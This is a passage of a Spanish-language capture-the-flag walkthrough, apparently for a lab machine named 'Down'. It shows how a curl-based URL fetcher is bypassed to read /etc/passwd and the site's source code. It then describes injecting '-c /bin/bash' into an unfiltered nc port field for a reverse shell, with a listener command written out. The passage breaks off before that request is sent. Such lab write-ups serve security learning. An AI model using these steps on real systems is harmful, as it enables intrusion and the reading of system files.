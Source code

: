 Podemos con curl, subir archivos, descargar, leer, etc. Especialmente la de leer archivos nos interesa, veamos esto:

![Down]({{ "/assets/images/Down6.png"}})

Podemos leer archivos con el parámetro **file://**, probemos a usarlo para leer el archivo **/etc/passwd**:

![Down]({{ "/assets/images/Down7.png"}})

Parece ser que solo permite el protocolo http y https, no obstante, haciendo más pruebas, vemos que solo pide que empiece por ello, así que, vamos a poner **http://** y luego el parámetro para leer archivos de seguido:

![Down]({{ "/assets/images/Down8.png"}})

Como podemos ver, pudimos leer el archivo **/etc/passwd**, y vemos que existe el usuario **aleks**, vamos a intentar leer el código fuente de la página web en la que insertamos la URL, cuyo nombre es **index.php** y, aunque no sabemos su ruta, podemos probar con las típicas como **/var/www/html** por ejemplo.

![Down]({{ "/assets/images/Down9.png"}})

Como podemos ver, tenemos el código fuente, que se encontraba en la ruta dicha previamente, vamos a decodificarlo con Burp Decoder para leerlo mejor, ya que está codificado en HTML:

![Down]({{ "/assets/images/Down10.png"}})

Una vez decodificado, lo copiamos a un archivo y lo inspeccionamos.

Una vez viendo el código fuente, podemos ver una parte en la que dice que si usamos el parámetro **expertmode** con el valor **tcp**, recibiremos una página diferente, que nos pedirá 2 parámetros, IP, y puerto, los cuales vemos en esa parte de código que utiliza la herramienta **nc** para comprobar que está activo el host e inyecta la IP y el puerto sin filtrar en el comando:

![Down]({{ "/assets/images/Down11.png"}})

Tras esto, iremos directamente a probar a usar ese parámetro y valor:

![Down]({{ "/assets/images/Down12.png"}})

Podemos ver que ahora nos pide la IP y el puerto, y como lo inyecta directamente sin filtrar en el comando nc, aañdiremos después del puerto el parámetro **-c /bin/bash**, lo que nos dará una reverse shell a nuestra IP por el puerto que pongamos a escucha, para esto, podemos, o bien quitar en el front-end el campo **type: number** en el campo del puerto, o bien añadiendo el parámetro directamente desde BurpSuite, en este caso quitaremos el type: number del front-end:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```

![Down]({{ "/assets/images/Down13.png"}})

Una vez eliminado y puesto a la escucha nuestro puerto por el que queremos recibir la reverse shell, podemos enviar la petición con el parámetro dicho previamente en el campo del puerto tras quitar el tipo de contenido que espera el front-end:
